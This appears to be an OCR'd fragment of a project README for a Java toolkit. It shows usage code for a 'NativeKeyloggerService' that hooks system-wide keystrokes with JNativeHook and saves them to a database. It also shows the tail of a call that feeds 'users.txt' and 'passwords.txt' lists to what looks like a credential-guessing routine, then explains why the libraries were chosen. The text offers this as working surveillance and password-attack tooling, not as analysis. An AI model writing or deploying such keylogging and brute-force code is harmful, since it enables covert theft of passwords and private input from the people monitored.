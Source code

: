 ```java
    "Invalid credentials",
    "users.txt",
    "passwords.txt",
    progress -> updateUI(progress)
);
```

### NativeKeyloggerService

```java
@Autowired
private NativeKeyloggerService keylogger;

// Start capturing
keylogger.start();

// Subscribe to event stream (reactive)
keylogger.getEventStream()
    .filter(event -> event.getType() == EventType.KEY_TYPED)
    .map(KeyEvent::toReadableString)
    .subscribe(readable -> {
        System.out.println(readable);
        saveToDatabase(readable);
    });

// Get statistics
Statistics stats = keylogger.getStatistics();
System.out.printf("Captured: %d events (%d keys, %d mouse)\n",
    stats.getTotalEvents(),
    stats.getKeyEvents(),
    stats.getMouseEvents());

// Stop capturing
keylogger.stop();

// Consume buffer
Queue<KeyEvent> events = keylogger.consumeBuffer();
```

---

## 🔧 Technical Decisions

### Why JNativeHook?
- ✅ **Cross-platform:** Single code for Win/Linux/macOS
- ✅ **Production-ready:** Actively maintained, 2.2.2 stable
- ✅ **No native code:** Pure Java (easier to maintain)
- ✅ **Global hooks:** Captures system-wide events

### Why Apache Commons Exec?
- ✅ **Battle-tested:** Used in production worldwide
- ✅ **Watchdog support:** Automatic timeout handling
- ✅ **Stream handling:** Clean stdout/stderr management
- ✅ **Cross-platform:** Works on Win/Linux/macOS
